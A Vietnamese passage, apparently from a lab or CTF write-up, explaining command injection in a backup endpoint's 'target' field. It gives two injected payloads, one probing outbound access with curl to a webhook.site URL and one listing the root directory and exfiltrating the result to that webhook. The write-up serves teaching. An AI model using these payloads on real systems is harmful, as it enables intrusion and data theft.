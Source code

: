 - Lệnh curl dùng để gửi một gói tin http hoặc 1 cú request ra ngoài, tức là bh ta sẽ sử dụng lệnh cat để đọc gói tin rùi curl kết quả đó ra ngoài.

- Bước 1: chúng ta kiểm tra rằng server này có thể bắn được gói tin nào hay không. Sử dụng lệnh curl bằng việc sử dụng chèn command có lệnh curl vào một địa chỉ server (ở đây tay sử dụng `webhook`).

    ```bash
    command=backup&target=tungdeptrai.zip; curl https://webhook.site/fb779aa2-4ae3-4567-9de7-e9e1911578b6 %23
    ```

    Giải thích: `%23` là kí tự `#`, đây là bắt đầu comment và sẽ loại bỏ hết tất cả những câu lệnh sau `#`, địa chỉ webhook ở mỗi mãy 1 khác nhau.

    ![alt text](IMG/4/image-6.png)

    ![alt text](IMG/4/image-7.png)

    Sau khi chạy câu lệnh xong ta thấy có một gói tin entry được gửi cho mỗi trang webhook của mình.

    Điều này chứng minh được rằng vế đầu tiên là có lệnh curl và có cả internet. Vì có nhiều con server ứng dụng weeb đứng trước mặt plugin, vì nhwuxng hệ thống web lớn sẽ có 1 load bylansingm, vì hầu hết các con web sẽ nằm sau một con proxy nào đó, và rất có thẻ ứng dụng web đó không ra ngoài lun. Thật may mắn bài này có internet và có lệnh curl.

- Sau khi biết được chương trình cho phép lệnh curl thì ta thực hiện viết command để có thể đọc được lệnh ls bằng việc chỉnh burp suite như sau:

    ```bash
    # sử dụng từ khóa: how to use curl to send a file để có thể tra được câu lệnh curl
    command=backup&target=tungdeptrai.zip; ls / > /tmp/tungdvan.txt; curl -d @/tmp/tungdvan.txt https://webhook.site/fb779aa2-4ae3-4567-9de7-e9e1911578b6 %23
    ```
